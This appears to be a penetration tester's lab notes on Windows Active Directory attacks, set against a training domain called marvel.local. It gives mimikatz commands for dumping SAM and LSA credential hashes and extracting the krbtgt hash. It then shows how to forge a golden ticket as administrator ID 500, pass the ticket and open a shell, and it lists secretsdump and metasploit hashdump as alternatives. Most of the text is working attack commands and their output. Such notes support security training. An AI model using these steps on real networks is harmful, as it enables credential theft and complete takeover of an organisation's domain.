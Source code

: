 ### Dumping SAM

```
mimikatz # lsadump::sam

mimikatz # lsadump::sam /patch

mimikatz # lsadump::lsa /patch
```

<mark style="color:yellow;">Other ways of dumping the sam:</mark>

* If this does not work, you can download the SAM to Kali and dump it
* You can use impacket-secretsdump
* Get a shell with metasploit and do hashdump

## Golden Ticket Attacks

* <mark style="color:yellow;">Have access to the krbtgt hash?</mark>
* This is the Kerberos Ticket Granting Ticket account
* This allows us to generate tickets!
* We have complete access to the entire domain by means of being the holder of this hash!

### Mimikatz

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /inject /name:krbtgt

domain -- sid_here
krbtgt -- hash_here
```

* You need to grab the SID of the domain
* NTLM hash of the krbtgt account
* Place these both in a document

```
mimikatz # kerberos::golden /User:YourDomainIsNowMine /domain:marvel.local /sid:domain_sid_here /krbtgt_hash_here /id:500 /ptt

Golden ticket for 'YourDomainIsNowMine @ marvel.local' successfully submitted for current session
```

* id is the Administrator's ID for Windows which is 500
* ptt stands for pass-the-ticket

```
mimikatz # misc::cmd
```

